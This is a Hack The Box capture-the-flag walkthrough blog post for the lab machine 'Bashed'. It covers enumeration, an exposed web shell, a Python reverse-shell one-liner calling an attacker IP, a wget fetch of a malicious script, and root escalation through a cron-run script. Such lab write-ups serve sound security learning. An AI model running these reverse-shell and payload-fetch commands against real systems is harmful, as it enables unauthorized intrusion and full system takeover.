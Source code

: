 ```yaml
---
title: Bashed
date: 2020-05-22 18:59
description: HTB Walkthrough without Metasploit
featured_image: '/images/blog/bashed/bashed.png'
categories: htb
---
```


In Bashed, we'll find a hidden directory where we'll have access to a bash terminal through a web browser. We'll use this bash terminal to gain access to the box by creating a reverse shell (x2!) to gain root access, without using Metasploit. So let's get started.

## Hack The Box

* Operating System: Linux 
* Difficulty: Easy

## Enumeration

Enumeration begins with the classic nmap scan.

<img src="/images/blog/bashed/nmapscan.jpg" alt="nmap scan">

	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Arrexel's Development Site

From the results, we know that port 80 is open. So let’s start investigating.

### Website Information 

The first thing we can do is go to the web browser and enter **10.10.10.68**.

<img src="/images/blog/bashed/website.jpg" alt="web page of 10.10.10.68">

After investigating the webpage, it looks like it's some sort of blog that talks about phpbash. Nothing interesting. Checked in the source code and ran Burp Suite, nothing interesting in there either.

The next step is to run DirBuster to see if we can find any hidden directories.

### DirBuster

To run DirBuster, we can type `dirbuster` in the Kali Linux terminal. DirBuster should automatically open. For this scan, I selected the wordlist file: 

**/usr/shared/wordlists/dirbuster/directory-list-2.3-medium.txt**

<img src="/images/blog/bashed/dirbuster.jpg" alt="DirBuster results">

Interestingly, we can see that there's a /dev directory that's available and within it has phpbash.php. Let's go ahead and access that directory within the web browser by typing: 

**http://10.10.10.68/dev/phpbash.php**

Oh, it like we have access to a bash terminal. We can do some more enumerating by typing: 

* `whoami` = prints the userid (currently www-data)
* `uname -a` = prints system information 
* `sudo -l` = tells us what permissions we have

<img src="/images/blog/bashed/phpbash.jpg" alt="bash terminal">

We can see in the second to last line that we can run commands as **scriptmanager** without needing to enter in a password, that might come in handy later.

From the bash terminal we can also navigate throughout the system (FYI, you can find the user.txt file), I navigated to the root directory and found that there was a scripts directory in there--don't usually see a scripts directory in there.

So we can use the `ls -la` command to see a bit more about the file permissions. The image below shows that the user scriptmanager owns and has access to the scripts directory.

<img src="/images/blog/bashed/directory.jpg" alt="scripts directory">

Since we know from above that we can login as scriptmanager, I tried to switch users but it didn't work. In this scenario, since we can't switch users, it means that the bash terminal can only accept one command at a time, so we'll need to complete a reverse shell to gain access.

To gain a reverse shell, we need to find out which code the computer can accept. In this case, I've confirmed that this box accepts python by typing `which python`. This command tells us the location of the executables, and because it printed the path for python, we know that python is installed.

I think we have enough information to exploit the box, so let's give it a try.

## Exploitation

Before we start exploiting the box, let's recap what we found during the enumeration phase:

* In the nmap scan we saw that port 80 was open. 
* After running DirBuster, we found /dev/phpbash.php 
* By typing `sudo -l` we found out that we can log in as scriptmanager. 
* The scriptmanager user has access to a scripts directory. 
* Confirmed that the box can read python. 

Now that we've confirmed the above, let's start the exploitation phase.

### Gaining Reverse Shell

I used [Pentest Monkey's Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to find a python script that we can use. 

Before using it, in a Kali terminal we'll want to start a Netcat listener:  

`nc -lnvp 4444`

And then in the Bash terminal I typed in:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Success! If we head back to the Kali terminal we should see that we now have a reverse shell.

<img src="/images/blog/bashed/reverseshell.jpg" alt="reverse shell">

Because we're currently logged in as www-data, we can switch users to scriptmanager by typing in:

`sudo -i -u scriptmanager` 

Once we've logged in we can go back to the scripts directory to see what's in there. As a habit, I like to type in `ls -la` to find out more information about the files within the directory.

<img src="/images/blog/bashed/scripts.jpg" alt="scripts directory">

In the image above, we can see that we have read/write access to a **test.py** file. Upon closer inspection, it also looks like the time noted in the **test.txt** increases every minute, so it's likely that the test.txt file is on cronjob to execute the test.py file. We can probably use this to our advantage and complete a privilege escalation to gain root access.

### Privilege Escalation

The first thing I did was create another **test.py** script on the Kali machine but edited it so that it has the script to create a reverse shell using python. 

<img src="/images/blog/bashed/test.jpg" alt="test script">

Before saving, make sure to remember the port number (in the image above, I used 4444) since we will be using it when we create another Netcat listener. 

Next, I created: 

- On Kali machine: `nv -lnvp 4444`
- On Bashed machine: `wget http://10.10.14.31:4444/test.py`

Now if we go into the Bashed terminal, we can see that it downloaded the file.

Afterwards, I removed the old test.py by using the `rm` command and renamed the new file so that it says test.py instead of test.py.1 by using the `mv` command.

Next, in the Kali machine, I created another listener `nc -lnvp 4444` (the same port number mentioned in the script) and waited for the cronjob to run. FYI, you can't run it yourself. You have to wait for the cronjob to complete or else you will not gain root access.

<img src="/images/blog/bashed/root.jpg" alt="root access">

Yes! We did it. To confirm we can type in the `id` command to make sure we have root access.

## Conclusion

If it wasn't obvious, having access to a bash terminal through a webpage is probably not the best way to keep a webpage secure. It was pretty easy to gain a reverse shell and then complete a privilege escalation to gain root access. So, don't have your bash terminals public everyone!